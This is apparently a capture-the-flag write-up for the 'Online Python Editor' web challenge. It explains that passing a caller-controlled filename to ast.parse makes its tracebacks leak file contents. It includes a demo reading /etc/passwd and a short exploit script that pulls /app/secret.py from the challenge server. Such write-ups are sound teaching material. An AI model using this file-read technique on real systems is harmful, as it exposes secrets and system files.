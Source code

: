 ```yaml
---
title: TRX CTF 25 - Online Python Editor
date: '2025-02-26'
lastmod: '2025-02-26T15:00:00+02:00'
categories:
- writeup
- trxctf25
tags:
- web
- server side
authors:
- salvatore.abello
---
```


This is an easy server side challenge

## Overview

We're given a challenge that allows us to edit Python code online. Syntax checks are performed server-side using `ast.parse`, and the source code is passed by unpacking `request.json` into the function call. If an exception is thrown, the traceback will be returned to us.

Our goal is to read the content of `secret.py`

Since the source code is nearly non-existent, the vulnerability clearly lies in how `ast.parse` is called:

```py
ast.parse(**request.json)
```

Let's review the documentation for `ast.parse`:

```py
parse(
    source,
    filename='<unknown>',
    mode='exec',
    *,
    type_comments=False,
    feature_version=None,
    optimize=-1
)
    Parse the source into an AST node.
    Equivalent to compile(source, filename, mode, PyCF_ONLY_AST).
    Pass type_comments=True to get back type comments where the syntax allows.
```

Although we're not able to execute arbitrary code, there's something interesting here:

> Equivalent to `compile(source, filename, mode, PyCF_ONLY_AST)`

`compile` is known to be unsafe if used in a certain way. In fact, we can read files by causing a syntax error. For example:

```py
>>> compile(".", "/etc/passwd", "exec")
Traceback (most recent call last):
  File "<python-input-3>", line 1, in <module>
    compile(".", "/etc/passwd", "exec")
    ~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/etc/passwd", line 1
    root:x:0:0:Super User:/root:/bin/bash
    ^
```

To read multiple lines, we can add a newline before the dot, like this:

```py
compile("\n.", "/etc/passwd", "exec")
```

# Final exploit

```py
import requests

URL = "http://localhost:3000"

for x in range(32):
    leak_source = "\n"*x + "."
    response = requests.post(f"{URL}/check", json={
        "source": leak_source,
        "filename": "/app/secret.py"
        })
    leak = response.json()["error"].split("\n")[-4].strip()

    if leak == ".":
        break

    print(leak)
```
